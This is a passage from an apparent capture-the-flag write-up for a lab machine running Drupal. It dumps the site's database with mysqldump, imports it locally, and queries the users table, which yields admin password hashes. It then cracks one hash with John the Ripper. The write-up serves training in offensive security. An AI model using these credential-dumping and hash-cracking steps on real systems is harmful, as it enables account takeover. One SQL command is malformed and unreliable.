 ## 6. MySqlDump Drupal Database
```
mysqldump drupal -u drupaluser -p > dump.sql
download  dump.sql
```

## 7. Enable Mysql service and search for credentials
bash
```
systemctl start mysql
sudo mysql
```

mysql
```
CREATE drupal;
exit
```
bash
```
sudo mysql drupal < dump.sql
```

mysql
``` 
USE drupal;
SELECT * FROM users;
```
```
+-----+-------------------+---------------------------------------------------------+---------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------+----------+---------+---------------------+--------------------------+
| uid | name              | pass                                                    | mail                | theme | signature | signature_format | created    | access     | login      | status | timezone      | language | picture | init                | data                     |
+-----+-------------------+---------------------------------------------------------+---------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------+----------+---------+---------------------+--------------------------+
|   0 |                   |                                                         |                     |       |           | NULL             |          0 |          0 |          0 |      0 | NULL          |          |       0 |                     | NULL                     |
|   1 | brucetherealadmin | $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt | admin@armageddon.eu |       |           | filtered_html    | 1606998756 | 1607077194 | 1607076276 |      1 | Europe/London |          |       0 | admin@armageddon.eu | a:1:{s:7:"overlay";i:1;} |
|   3 | max               | $S$D8m3/3dYQyGaQY4IgFxM1ROuYsfNkGGMP.7QWdfskCUKOwBAHHeU | max@gmail.com       |       |           | filtered_html    | 1617727795 |          0 |          0 |      0 | Europe/London |          |       0 | max@gmail.com       | NULL                     |
+-----+-------------------+---------------------------------------------------------+---------------------+-------+-----------+------------------+------------+------------+------------+--------+---------------+----------+---------+---------------------+--------------------------+
```

## 8. Decode Hash and get User
```
touch passwd
vi passwd 
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
Save & Exit

john passwd --show
?:<HIDDEN PASSWD>

1 password hash cracked, 0 left
```
